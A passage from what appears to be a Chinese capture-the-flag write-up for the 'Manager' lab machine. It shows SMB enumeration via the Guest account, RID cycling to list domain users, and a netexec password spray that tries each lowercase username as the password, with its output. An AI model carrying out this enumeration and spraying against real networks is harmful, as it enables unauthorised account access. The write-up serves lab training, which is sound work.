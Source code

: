 ```bash
Open 10.10.11.236:49693
Open 10.10.11.236:49725
Open 10.10.11.236:49801
Open 10.10.11.236:52587
```

## 02. 使用Guest账户枚举 SMB服务

在没有任何账户的情况下，尝试使用Windows内置的Guest账户枚举SMB文件共享

发现虽然启用了 `Guest` 账户，但是只有默认共享 `IPC$` 的读取权限，没有什么有用的信息。

然后我们使用 `Guest` 账户进行RID爆破，枚举域用户名：

> [!note]
> RID爆破(RID Cycling)的原理是：由于 RIDs 是连续的，所以攻击者可以暴力破解或猜测 RIDs 和 SIDs 来枚举域对象

攻击过程如下

{{< asciinema file="rid_cycling.cast" poster="npt:0:24" markers="0.5: 探测匿名账户是否启用, 11.1: 探测来宾账户是否启用, 24.3:RID爆破拿到用户名, 15"  >}}

其中 `SidTypeUser` 代表用户，我们可以得到一份用户清单 `usernames.txt`

```
Administrator
Guest
krbtgt
DC01$
Zhong
Cheng
Ryan
Raven
JinWoo
ChinHae
Operator
```

然后我们简单尝试一下常见弱口令（偏脑洞，需要积累此操作）

1. 密码与用户名相同 --> 失败
2. 密码是用户名大写 --> 失败
3. 密码是用户名小写 --> 成功

```bash
kali@kali[~]$ cat usernames.txt | awk '{ print  tolower($0) }' > passwords.txt
kali@kali[~]$ netexec smb 10.10.11.236 -u usernames.txt -p passwords.txt --no-bruteforce --continue-on-success
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\Administrator:administrator STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\Guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\DC01$:dc01$ STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Zhong:zhong STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\JinWoo:jinwoo STATUS_LOGON_FAILURE 
```